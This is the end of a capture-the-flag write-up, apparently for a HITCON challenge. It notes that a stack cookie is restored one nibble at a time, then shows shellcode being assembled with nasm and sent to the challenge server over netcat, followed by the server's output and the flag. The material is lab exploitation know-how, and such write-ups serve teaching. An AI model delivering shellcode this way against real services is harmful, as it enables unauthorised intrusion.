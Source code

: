 It looks like the backward pass does restore the cookie one nibble at a time, so it should work!

### Getting the flag

All that's left at this point, is to run our shellcode against the server and ~~hope for the best~~ confidently wait for the flag:

```bash
$ nasm shellcode.s && cat <(wc -c shellcode | cut -d' ' -f1) shellcode | nc 52.192.42.xxx 9427
Size of shellcode? (MAX: 2000)
Reading 312 bytes..
Shellcode receieved. Launching Time Machine..
Perfect.
hitcon{whats happened happened, this is the mechanism of the world}
```

Success!
